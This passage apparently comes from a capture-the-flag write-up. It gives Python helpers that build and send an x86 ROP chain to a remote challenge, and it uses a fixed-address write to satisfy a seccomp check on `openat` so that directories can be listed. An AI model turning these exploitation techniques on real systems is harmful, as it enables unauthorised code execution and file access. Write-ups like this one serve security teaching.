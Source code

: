 ```python
# 0x13372339:  5b    pop ebx
# 0x1337233a:  5e    pop esi
# 0x1337233b:  5f    pop edi
# 0x1337233c:  5d    pop ebp
# 0x1337233d:  c3    ret
CLEAN_STACK_GADGET = 0x13372339
```

Now we can implement some helper functions to generate and send our ROP chain.
First of all, a function that generates a ROP chain to make arbitrary function
calls would be nice. We can use the above symbols and the "clean stack" gadget
to do this:

```python
def call(funcname: str, *args: int) -> bytes:
 assert 0 <= len(args) <= 4, args

 if len(args) == 0:
  # No need to clean any args from the stack after the call
  clean_stack = ()
 else:
  # Need clean some args from the stack after the call, pop as many
  # registers as function arguments
  clean_stack = CLEAN_STACK_GADGET + 4 - len(args)

 return flat(EXE_SYMBOLS[funcname], clean_stack, args)
```

Then we can write an helper function that can send a chain and restart the
`go()` function to make the program ask for a new chain:

```python
def send_chain(chain: bytes):
 # Add a call to re-start the go() func to read a new chain after this one
 chain += call('go')
 assert len(chain) <= 1024, f'Chain too long: {len(chain)}'

 REMOTE.recvuntil(b'Give me your x86 32bit ROP chain (exactly 1024 bytes):\n')
 REMOTE.send(chain.ljust(1024, b'\0'))
```

To list the files in a directory we must open the directory first using the only
syscall we have to do this: `openat`. To use it, we need to pass the check
implemented by the seccomp filter: the second argument (`char *pathname`) needs
to be equal to `0x13375d60`. To do this, we can use the `read_exact()` function
at `0x13372edc` to read an arbitrary string at that address before passing it to
`openat`. Here's an helper function that does exactly this:

```python
def openat(dirfd: int, name: str):
 name = name.encode() + b'\0'
 chain = call('read_exact', 0, EXE_SYMBOLS['triwizard_cup_fname'], len(name))
 chain += call('openat', dirfd, EXE_SYMBOLS['triwizard_cup_fname'], 0, 0)
 send_chain(chain)
 REMOTE.send(name) # filename for openat(), read by read_exact()
```


[man-1-file]: https://manned.org/man/file.1
[man-1-readelf]: https://manned.org/man/readelf.1
[man-2-close_range]: https://manned.org/man/close_range.2
[man-2-getrandom]: https://manned.org/man/getrandom.2
[man-2-getrlimit]: https://manned.org/man/getrlimit.2
[man-2-mkdirat]: https://manned.org/man/mkdirat.2
[man-2-mmap]: https://manned.org/man/mmap.2
[man-2-openat]: https://manned.org/man/openat.2
[man-2-prctl]: https://manned.org/man/prctl.2
[man-2-readdir]: https://manned.org/man/readdir.2
[man-2-seccomp]: https://manned.org/man/seccomp.2
[seccomp-tools]: https://github.com/david942j/seccomp-tools
[wiki-bfs]: https://en.wikipedia.org/wiki/Breadth-first_search
[wiki-dfs]: https://en.wikipedia.org/wiki/Depth-first_search